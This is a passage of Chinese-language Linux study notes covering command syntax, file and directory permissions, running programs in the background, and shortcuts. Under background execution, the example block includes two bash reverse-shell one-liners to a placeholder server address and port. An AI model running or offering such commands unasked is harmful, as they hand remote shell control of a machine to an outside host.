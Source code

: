 ### （3）指令

**指令主体 [选项] [操作对象]**

一条指令1个指令主体，可有多个选项，多个操作对象。选项、操作对象可选。

### （4）属组和权限

Linux系统给所有者、同组用户、其他用户规定了不同的权限。

root用户不受权限限制。

Linux中的用户都是按照组划分，一个用户可以属于一个组或多个组。

文件或目录的所有者owner以外的用户，可分为同组的，和其他用户（不同组）。

![image-20221125011149862](https://raw.githubusercontent.com/WangKun233/ImageHost/main/image-20221125011149862.png)

* 用户、用户组、其他用户的权限都以(r,w,x)表示，-表示不具有该权限。

* 具有r/w/x可分别以**数字4/2/1**表示，如：权限为5表示rx，即可读可执行。权限7表示rwx，即可读可写可执行。具体一个文件是否可以执行还要看文件本身。

* 对于目录来说：

  > x表示可以进入目录（不是执行，目录没有执行的说法）
  >
  > r表示可以浏览目录的子目录和文件，但需要同时具有x权限（首先要能进入目录才能读写）
  >
  > w表示可以在目录中增加、删除、移动子目录或文件，但需要同时具有x权限

### （5）在后台执行程序

在程序后加`&`

```bash
./demo&
(bash -i >& /dev/tcp/服务器地址/隧道端口 0>&1)&
coproc bash -i >& /dev/tcp/服务器地址/隧道端口 0>&1 #coproc会启动新的shell进程执行命令
```

### （6）常用快捷键

* 清屏

  ctrl-l

* 清空已输入字符

  ctrl-c

* 命令补全

  tab键

* 光标移动到行首

  ctrl-a

* 光标移动到行末
